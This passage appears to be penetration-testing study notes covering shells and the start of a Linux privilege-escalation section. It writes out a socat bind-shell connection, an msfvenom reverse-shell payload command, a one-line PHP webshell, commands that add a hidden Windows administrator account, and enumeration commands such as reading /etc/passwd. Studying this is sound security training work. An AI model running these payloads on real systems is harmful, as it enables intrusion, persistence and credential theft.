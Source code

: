     #for bind shell attacker
    socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
    ```

* msfvenom:

  ```shell
  msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
  #-p for payload, -f for format, -o for filename and location
    
  #stageless payloads indicated with _
  #staged payloads indicated with /

  msfvenom --list payloads #list all payloads

  msfvenom --list payloads | grep "linux" #search particular payload
  ```

* Webshells - script that runs inside webserver which executes code on the server. For example, ```<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>``` is a basic PHP webshell.

* Post-shell steps:

  * SSH keys stored in ```/home/username/.ssh```, or credentials stored in random files.

  * For Windows, we can create an account in Adminstrators group:

    ```shell
    net user <username> <password> /add

    net localgroup administrators <username> /add
    ```

### Linux Privilege Escalation

* Enumeration:

  ```shell
  hostname #hostname of target machine

  uname -a #sysinfo

  cat /proc/version #system processes info

  cat /etc/issue #another way to identify system

  ps #running processes

  ps aux #all processes, including those not attached to terminal

  env #env variables

  sudo -l #list all commands user can run using sudo

  ls -la #all files

  id #user privilege level and groups

  cat /etc/passwd #discover all users

  cat /etc/passwd | cut -d ":" -f 1 #only users

  history #prev commands

  ifconfig

  netstat -ano #shows all sockets
  ```